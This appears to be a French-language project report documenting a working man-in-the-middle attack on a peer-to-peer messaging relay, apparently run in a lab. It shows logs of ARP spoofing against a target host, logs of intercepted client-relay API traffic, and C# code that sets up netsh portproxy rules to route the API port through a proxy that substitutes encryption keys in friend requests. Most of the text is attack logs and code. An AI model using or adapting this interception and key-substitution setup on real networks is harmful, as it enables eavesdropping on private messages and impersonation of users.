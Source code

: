 #### **🎯 Strategy Hybride Optimisée**
- **Ports haute performance** : Forward direct sans latence
- **Port API critique** : Interception pour friend requests
- **Windows portproxy** : Redirection automatique niveau OS
- **TCPProxy intelligent** : Substitution clés en temps réel

### ✅ **VALIDATION COMPLÈTE LOGS**

#### **🕷️ ARP Spoofing Fonctionnel**
```
🔥 DÉMARRAGE ARP SPOOFING: Target: 192.168.1.147 → Attaquant: 192.168.1.145
✅ ARP Spoofing actif: 192.168.1.147 redirigé
```

#### **📡 TCP Proxy Interception Active**
```
📡 Nouvelle connexion interceptée: 127.0.0.1:50235
🔄 Tunnel établi: Client ↔ [PROXY] ↔ 192.168.1.152:8889
```

#### **🔍 Trafic API Intercepté**
```bash
🔍 DEBUG Client→Relay: {"Command":"search","Action":"find_peer"...
🔍 DEBUG Relay→Client: {"success":true,"data":[{"name":"VM2","status":"On...
🔍 DEBUG Client→Relay: {"Command":"p2p","Action":"send_message"...
🔍 DEBUG Client→Relay: {"Command":"contacts","Action":"get_friend_request...
```

#### **🎯 Search Functionality Restored**
```
✅ Search successful: {"success":true,"data":[{"name":"VM2","status":"Online"}]}
✅ Friend requests transmission via intercepted API
✅ Messages routing through hybrid architecture
```

### 🔧 **IMPLÉMENTATION TECHNIQUE CRITIQUE**

#### **ConfigureWindowsPortForwarding() - CompleteScenarioAttack.cs:318-333**
```csharp
// Port proxy HYBRIDE - API intercepté, autres ports directs
var directPorts = new[] { 7777, 8888, 8891 }; // Performance
var interceptPort = 8889; // INTERCEPTION OBLIGATOIRE

// Forwarding DIRECT haute performance
foreach (var port in directPorts)
{
    var proxyCmd = $"netsh interface portproxy add v4tov4 listenport={port} " +
                   $"listenaddress=0.0.0.0 connectport={port} connectaddress={relayServerIP}";
}

// Forwarding MITM pour API (substitution clés)
var proxyCmd2 = $"netsh interface portproxy add v4tov4 listenport={interceptPort} " +
                $"listenaddress=0.0.0.0 connectport=18889 connectaddress=127.0.0.1";
```
